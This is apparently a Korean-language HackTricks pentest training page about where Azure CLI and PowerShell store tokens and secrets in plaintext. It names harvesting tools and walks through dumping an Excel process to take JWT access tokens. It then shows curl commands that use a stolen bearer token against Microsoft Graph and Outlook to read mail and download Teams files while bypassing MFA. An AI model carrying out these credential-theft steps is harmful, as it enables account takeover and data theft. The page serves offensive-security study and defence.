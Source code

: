 # Az - Local Cloud Credentials

{{#include ../../../banners/hacktricks-training.md}}

## Local Token Storage and Security Considerations

### Azure CLI (Command-Line Interface)

토큰과 민감한 데이터는 Azure CLI에 의해 로컬에 저장되며, 보안 우려를 불러일으킵니다:

1. **Access Tokens**: `C:\Users\<username>\.Azure`에 위치한 `accessTokens.json`에 평문으로 저장됩니다.
2. **Subscription Information**: 같은 디렉토리에 있는 `azureProfile.json`은 구독 세부 정보를 보유합니다.
3. **Log Files**: `.azure` 내의 `ErrorRecords` 폴더는 다음과 같은 노출된 자격 증명이 포함된 로그를 포함할 수 있습니다:
- 자격 증명이 포함된 실행된 명령.
- 토큰을 사용하여 접근한 URL, 민감한 정보를 드러낼 수 있습니다.

### Azure PowerShell

Azure PowerShell 또한 로컬에서 접근할 수 있는 토큰과 민감한 데이터를 저장합니다:

1. **Access Tokens**: `C:\Users\<username>\.Azure`에 위치한 `TokenCache.dat`에 평문으로 저장됩니다.
2. **Service Principal Secrets**: 이는 `AzureRmContext.json`에 암호화되지 않은 채로 저장됩니다.
3. **Token Saving Feature**: 사용자는 `Save-AzContext` 명령을 사용하여 토큰을 지속적으로 저장할 수 있으며, 이는 무단 접근을 방지하기 위해 신중하게 사용해야 합니다.

### Automatic Tools to find them

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Tokens in memory

[**이 비디오**](https://www.youtube.com/watch?v=OHKZkXC4Duw)에서 설명된 바와 같이, 클라우드와 동기화된 일부 Microsoft 소프트웨어(Excel, Teams...)는 **메모리에 평문으로 액세스 토큰을 저장할 수 있습니다**. 따라서 프로세스의 **메모리를 덤프하고** **JWT 토큰을 검색하는 것**만으로도 MFA를 우회하여 피해자의 여러 리소스에 접근할 수 있습니다.

단계:

1. 좋아하는 도구를 사용하여 EntraID 사용자와 동기화된 Excel 프로세스를 덤프합니다.
2. `string excel.dmp | grep 'eyJ0'`를 실행하고 출력에서 여러 토큰을 찾습니다.
3. 가장 관심 있는 토큰을 찾아 도구를 실행합니다:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**이러한 종류의 액세스 토큰은 다른 프로세스 내에서도 발견될 수 있습니다.**

{{#include ../../../banners/hacktricks-training.md}}

